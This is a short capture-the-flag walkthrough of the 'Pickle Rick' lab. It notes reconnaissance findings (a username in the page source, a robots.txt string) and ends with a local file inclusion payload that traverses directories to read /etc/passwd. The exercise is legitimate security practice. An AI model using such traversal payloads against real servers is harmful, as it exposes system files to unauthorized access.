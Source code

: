 # Pickle Rick
A Rick and Morty CTF. Help turn Rick back into a human!

Machine ip
```
export IP=10.10.143.147
```

- Performing an nmap scan as my first line of movement.

- I found some pretty interesting things in the webpage's source
```
Username: R1ckRul3s
```

- found some interesting thing in the robots.txt file also
```
Wubbalubbadubdub
```

- I am using the local file inclusion attack style to gather info about the directory structure of the server. I am going back many times to see if i can access the /etc/passwd since the server is running linux.
```
http://$IP:80/?page=../../../../../../../../../../../etc/passwd
```

